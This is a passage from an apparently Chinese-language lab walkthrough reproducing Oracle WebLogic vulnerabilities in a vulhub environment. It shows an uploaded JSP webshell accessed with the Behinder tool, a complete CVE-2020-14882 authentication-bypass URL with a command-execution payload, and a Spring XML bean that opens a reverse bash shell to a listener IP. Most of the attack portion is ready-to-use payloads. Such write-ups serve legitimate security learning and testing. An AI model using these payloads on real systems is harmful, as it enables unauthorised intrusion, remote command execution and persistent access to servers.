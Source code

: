 尽管上传后会报错，但是抓post包的响应中有jsp文件名  
[![](assets/1699005728-12a2845471fca03f55adb789373467fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202033-0e13eb6a-78b1-1.png)  
访问`http://10.140.32.159:33401/ws_utc/css/upload/RS_Upload_2023-08-24_13-16-31_154/import_file_name_shell.jsp`，使用冰蝎连接

#### 3.2.2 CVE-2020-14882

**漏洞复现**：  
使用vulhub上的docker搭建环境  
这里未授权访问的地址是  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29`，通过这个地址就能够进入后台  
命令执行操作：  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/CVE-2020-14882%27);%22);`  
命令执行成功  
[![](assets/1699005728-53bef8abb566c3baa38c24e98439f821.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202058-1cc28f86-78b1-1.png)  
反弹shell  
创建一个xml文件

```plain
# reverse-bash.xml

<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>/bin/bash</value>
<value>-c</value>
<value><![CDATA[bash -i >& /dev/tcp/172.24.0.1/5555 0>&1]]></value>
</list>
</constructor-arg>
</bean>
</beans>
```
